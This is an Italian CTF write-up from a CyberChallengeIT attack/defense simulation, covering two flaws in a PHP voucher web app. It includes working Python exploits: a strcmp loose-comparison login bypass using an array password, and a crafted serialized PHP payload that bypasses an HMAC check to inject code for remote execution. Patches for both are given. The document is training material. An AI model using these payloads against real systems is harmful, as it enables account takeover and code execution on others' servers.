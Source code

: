 # Simulazione 0

Pre-simulazione in formato Attack/Defense svolta il 19 e 20 maggio per l'addestramento previsto dal percorso CyberChallengeIT.

I servizi qui proposti erano:
* ilBonus
* WAQS

## ilBonus
_Categoria: web_

ilBonus è un'applicazione web sviluppata con PHP che permette agli utenti di registrarsi per richiedere dei bonus sotto forma di voucher. Questi possono poi essere verificati e riscossi.

![alt text](imgs/ilbonus.png)

### Vulnerabilità 1 - Loose Comparison in Login

Questo servizio soffre di una vulnerabilità comune di PHP, ovvero l'utilizzo di una loose comparison. In particolare, la password inserita dall'utente viene confrontata con la password dell'utente memorizzata nel DB attraverso l'uso della funzione built-in _strcmp_. Tuttavia, si confronta il risultato della strcmp con 0 (password uguali) attraverso un == (loose comparison) e non attraverso un === (strict comparison). 

```php
function login_with_password($user, $password) {
    global $users;
    $document = array('email' => (string) $user);
    $cursor = $users->find($document);
    $it = new \IteratorIterator($cursor);
    $it->rewind();
    while($userdb = $it->current()){
				if(strcmp($password, $userdb['password'])==0) {
					$_SESSION["email"] = $user;
					// User is logged in
					$_SESSION["loggedin"] = true;
					return true;
				}else{
                    break;
                }
    }
    return false;
}
```

Individuato ciò, basta fare in modo che la strcmp restituisca NULL, poiché per la versione di PHP utilizzata, NULL == 0 è True. Per avere NULL come risultato di strcmp, basta semplicemente passare come password un array.

#### Exploit

A questo punto l'exploit è molto breve. Basta sfruttare gli username presenti come flagIds e fare il login per questi account sfruttando la vulnerabilità indicata. In seguito la flag si trova in */profilo* nella sezione "Ulteriori informazioni".

```python
def get(ip, username):
	session = requests.Session()
	burp0_url = f"http://{ip}:8080/login"
	
	burp0_data = {"email": username, "password[]": "a"}
	resp1 = session.post(burp0_url, data=burp0_data)
	resp2 = session.get(f"http://{ip}:8080/profilo")
	
	#soup = BeautifulSoup(resp2.content, "html.parser")
	#flag = soup.find_all("textarea", class_="form-control")[0].text[:32]
	
	flag = re.findall("[A-Z0-9]{31}=", resp2.text)[0]
	return flag
```

Come possiamo notare per passare un array è stato necessario passare "password[]=\<password\>" anziché "password=\<password\>"


#### Patch

La patch è molto semplice: basta sostituire la loose comparison con una strict comparison, andando a modificare il "==" in "===".

```php
if(strcmp($password, $userdb['password'])===0) {
```


### Vulnerabilità 2 - Deserialization Attack, Loose Comparison

I voucher richiesti vengono serializzati e deserializzati. Inoltre, la classe Voucher presenta il metodo magico __wakeup, che verrà eseguito quando si deserializza un oggetto Voucher, andando ad eseguire il codice presente all'interno dell'hook. Possiamo notare che per poter inserire del codice hook arbitrario è necessario superare il controllo sull'HMAC e inserire un id di un voucher valido. Tuttavia, il controllo sull'HMAC viene fatto nuovamente con una semplice loose comparison che, per la versione PHP utilizzata dall'applicazione, permette di confrontare con successo troppe cose. 

Per esempio, passando un HMAC come valore booleano a true è possibile superare sempre la condizione perché si va ad effettuare il seguente controllo: "string" == TRUE, e questo è sempre vero in quanto equivale a verificare se la stringa è impostata o meno.

```php
function __wakeup(){
        global $secret;
        global $a, $start, $end, $run_test, $$end, $$start, $logger;
        if ($this->hmac == md5($secret . serialize($this->voucher) . $this->hook)){
            global $vouchers;
            if($vouchers->count(array("_id" => $this->voucher['_id'])) == 0){
                $this->hook = "echo \"Errore! Voucher non valido\"; exit();";
            }else{
                //all good
            }
        }else{
            $this->hook = "echo \"Errore! Rilevata Manomissione Voucher\"; exit();";
        }
        $logger->log_action(
            "Unserialized voucher ".$this->voucher['utente']. ' '. 
            $this->voucher['descrizione'].' '.$this->hook
        );
        if (isset($$a->{$start.$end})) $run_test($$a->{$$end.$$start});
    }
```

#### Exploit

Per poter sfruttare tale vulnerabilità, bisogna effettuare una serie di passaggi. In particolare, bisogna:
1. Registrarsi;
2. Loggarsi;
3. Richiedere un voucher;
4. Riscuotere il voucher richiesto.

```python
def get(ip, username):
	session = requests.Session()
	reg_username = get_random_string(10) + "@gmail.com"
	reg_password = get_random_string(10)
	
	register(session, ip, reg_username, reg_password)
	login(session, ip, reg_username, reg_password)
	resp = richiedi(session, ip)
	oid_buono = resp[143:167]

	r = riscuoti(session, ip, oid_buono, username)
	flag = re.findall("[A-Z0-9]{31}=", r.text)[0]
	return flag
```

La riscossione è proprio il passaggio più importante perché permette riscuotere un buono inserendo, però, delle informazioni che ci permettono di bypassare il controllo sull'HMAC e di inserire del codice malevolo per avere una RCE:

```python
def riscuoti(session, ip, oid_buono, username):
    burp0_url = f"http://{ip}:8080/riscuoti"
    burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Content-Type": "multipart/form-data; boundary=---------------------------64052321125013213451568947986", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

    size = str(180+len(username))
    
    burp0_data = "-----------------------------64052321125013213451568947986\r\nContent-Disposition: form-data; name=\"voucherfile\"; filename=\"Voucher.vou\"\r\nContent-Type: application/octet-stream\r\n\r\nO:7:\"Voucher\":3:{s:7:\"voucher\";O:26:\"MongoDB\\Model\\BSONDocument\":4:{i:0;i:2;i:1;a:7:{s:3:\"_id\";O:21:\"MongoDB\\BSON\\ObjectId\":1:{s:3:\"oid\";s:24:\"" + oid_buono + "\";}s:9:\"categoria\";s:8:\"Computer\";s:11:\"descrizione\";s:0:\"\";s:7:\"negozio\";s:0:\"\";s:9:\"indirizzo\";s:0:\"\";s:5:\"infos\";s:0:\"\";s:6:\"utente\";s:11:\"xxx@xxx.com\";}i:2;a:0:{}i:3;N;}s:13:\"\x00Voucher\x00hmac\";b:1;s:13:\"\x00Voucher\x00hook\";s:" + size + ":\"global $users;$document = array('email' => \"" + username + "\");$cursor = $users->find($document);$it = new \\IteratorIterator($cursor);$it->rewind();$user = $it->current();echo($user->infos);die();\";}\r\n-----------------------------64052321125013213451568947986\r\nContent-Disposition: form-data; name=\"codicecassa\"\r\n\r\n\r\n-----------------------------64052321125013213451568947986\r\nContent-Disposition: form-data; name=\"numeroscontrino\"\r\n\r\n\r\n-----------------------------64052321125013213451568947986\r\nContent-Disposition: form-data; name=\"iban\"\r\n\r\n\r\n-----------------------------64052321125013213451568947986--\r\n"

    resp = session.post(burp0_url, headers=burp0_headers, data=burp0_data)
    return resp
```

Come possiamo vedere qui è stato inserito codice PHP in hook. Esso prevede, innanzitutto, di effettuare una query al DB (mongoDB) andando a recuperare l'utente in base all'email specificata (flagId). Successivamente si vanno a prendere le info dell'utente e, come prima, troviamo la flag in "Ulteriori informazioni".

#### Patch

Il modo più veloce per patchare questa vulnerabilità è stato quello di andare a sostituire la loose comparison con una strict comparison nel confronto tra HMAC:

```php
if ($this->hmac === md5($secret . serialize($this->voucher) . $this->hook)){
```

Inoltre, qualora tutti i controlli andassero a buon fine, l'hook viene impostato a "", per fare in modo che, se qualcuno trovi altri modi per bypassare le verifiche e impostare l'hook in questo modo, esso venga automaticamente cancellato.

```php
} else{
    //all good
    $this->hook = "";
}
```



## WAQS
_Categoria: pwn_